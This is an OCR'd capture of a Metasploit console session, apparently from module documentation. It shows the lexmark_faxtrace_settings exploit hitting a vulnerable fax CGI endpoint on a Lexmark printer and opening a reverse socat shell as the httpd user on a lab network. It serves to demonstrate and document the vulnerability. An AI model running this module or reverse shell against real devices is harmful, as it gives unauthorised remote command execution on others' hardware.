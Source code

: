 ```
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix (In-Memory)



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/lexmark_faxtrace_settings) > run

[*] Started reverse TCP handler on 192.168.1.72:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Waking up the printer ...
[+] The target appears to be vulnerable. The vulnerable endpoint "/cgi-bin/fax_change_faxtrace_settings" is reachable
[*] Executing Unix (In-Memory) for cmd/unix/reverse_socat_tcp
[*] Command shell session 5 opened (192.168.1.72:4444 -> 192.168.1.71:54456) at 2023-08-30 19:51:57 -0400


Shell Banner:
httpd@ET788C773C36F9:/usr/share/web/cgi-bin$
-----


httpd@ET788C773C36F9:/usr/share/web/cgi-bin$ id
id
uid=985(httpd) gid=982(httpd) groups=982(httpd)
httpd@ET788C773C36F9:/usr/share/web/cgi-bin$ uname -a
uname -a
Linux ET788C773C36F9 4.17.19-yocto-standard-74b7175b2a3452f756ffa76f750e50db #1 SMP PREEMPT Mon Jun 29 19:46:01 UTC 2020 armv7l GNU/Linux
httpd@ET788C773C36F9:/usr/share/web/cgi-bin$
```
